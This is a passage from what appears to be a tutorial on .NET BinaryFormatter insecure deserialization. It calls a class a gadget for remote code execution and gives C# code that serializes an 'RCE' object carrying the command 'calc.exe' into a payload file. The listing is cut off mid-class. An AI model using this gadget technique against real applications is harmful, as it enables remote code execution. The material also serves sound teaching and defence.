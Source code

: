 ```csharp
        Run();
    }
}
```

This class seems suitable for our needs, it can be considered as it's a valid **Gadget**, as even alone it can allow us to reach remote code execution. In order to achieve it, it would be enough for an attacker to serialize the RCE class giving a valid command to execute: 

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using
System.Runtime.Serialization.Formatters.Binary;
namespace BinarySerialization
{
    public static class BinarySerialization
    {
        private const string filename = "desert.ser";
        [STAThread]
        static void Main(string[] args)
        {
            Console.WriteLine();
            // Delete old file, if it exists
            BinarySerialization.deleteFile(filename);
            // Serialize RCE
            BinarySerialization.desertSerial(filename);
            // Wait for Enter
            Console.WriteLine();
            Console.WriteLine("Press Enter Key");
            Console.Read();
        }

        public static void deleteFile(string filname)
        {
            if (File.Exists(filename))
            {
                Console.WriteLine("Deleting old file");
                File.Delete(filename);
            }
        }     

        public static void desertSerial(string filename)
        {
            // Create desert name
            var desert = new RCE();
            desert.cmd = "calc.exe";
            // Persist to file
            FileStream stream = File.Create(filename);
            var formatter = new BinaryFormatter();
            Console.WriteLine("Serializing desert (RCE)");
            formatter.Serialize(stream, desert);
            stream.Close();
        }

    }

    [Serializable]
    public class RCE : IDeserializationCallback
    {
        private String _cmd;
        public String cmd
        {
```